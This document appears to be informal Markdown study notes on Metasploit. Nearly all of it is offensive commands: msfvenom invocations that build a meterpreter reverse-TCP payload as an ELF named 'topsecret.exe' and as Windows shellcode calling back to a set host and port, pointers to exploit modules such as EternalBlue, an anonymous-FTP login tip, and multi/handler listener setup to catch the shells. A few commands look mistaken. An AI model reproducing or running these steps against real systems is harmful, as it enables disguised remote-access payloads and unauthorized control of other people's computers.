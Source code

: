 ## Creating Payload for Linux

```
~>	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=2020 -f elf > topsecret.exe
```
In Linux, ELF (Executable and Linkable Format) is a common file format used for executable files, object code, shared libraries, and core dumps.
- **NB**. Extension for android is .apk

## shellcode

```
~>	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=2020
```
you can look the shell code now.

## Exploits on MSF

- **Exploits** are scripts or modules used to take advantage of vulnerabilities in a system. 
- Each exploit module in Metasploit is designed for a specific type of service and targets a particular operating system. 
- The exploits are located in `/usr/share/metasploit-framework/modules/exploits`
##### Exploit Example Formatting

- **Exploit**: `exploit/ windows/` 
	- **OS**: Windows `smb/ms17_010_eternalblue` 
	- **Vulnerability**: `CVE-2017-0144 (EternalBlue)` 
- **Exploit**: `exploit/ linux/ ftp/anonymous` 
	- **OS**: Linux 
	- **Vulnerability**: FTP vulnerability
<br>NB. If you get **FTP** vuln you can login **without password** with **`anonymous`**
<br>The Exploits are written in ruby. If you can Write ruby you can build your own script.

- To start it you can type, 
	- `msfconsole` 
	- `msfconsole -q`      ...you can Skip the banner part with this
	- `sudo msdb run`
- Then:
	- it gives you a new terminal
	- We can search any exploit for a system.
	- **Example**: for apache "`search apache`"
		- you can get apache exploits in dt versions

## Creating listener

1. We start Metasploit. 
2. We search for an exploit called **handler**
3. To use this exploit
```
msf6>	use exploit/multi/handler   ..or..>  use 29

(multi/handler)>	set LHOST 192.168.3.4
(multi/handler)>	set LPORT 4433
```
4. To run it 
```
(multi/handler)>	exploit    ..or..>   run
```
